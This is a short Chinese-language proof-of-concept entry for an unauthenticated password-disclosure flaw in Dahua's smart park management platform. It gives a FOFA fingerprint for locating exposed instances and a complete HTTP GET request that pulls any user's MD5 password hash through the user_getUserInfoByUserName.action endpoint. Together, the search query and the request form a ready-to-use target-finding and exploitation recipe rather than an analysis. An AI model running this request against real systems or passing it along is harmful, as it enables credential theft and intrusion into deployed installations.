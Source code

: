 ##  大华智慧园区综合管理平台user_getUserInfoByUserName.action未授权任意用户密码读取

大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调 配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管 理需求，同时通过提供智能服务，增强使用体验。

 由于该平台未对接口权限做限制，攻击者可以从 user_getUserInfoByUserName.action 接口获取任意用户密码(MD5 格式)。

## fofa

```
body="src=/WPMS/asset/common/js/jsencrypt.min.js"
```

## poc

```
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
Host: xxxxxxxxx
Cookie: JSESSIONID=D99F6DAEA7EC0695266E95A1B1A529CC
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405262009978.png)
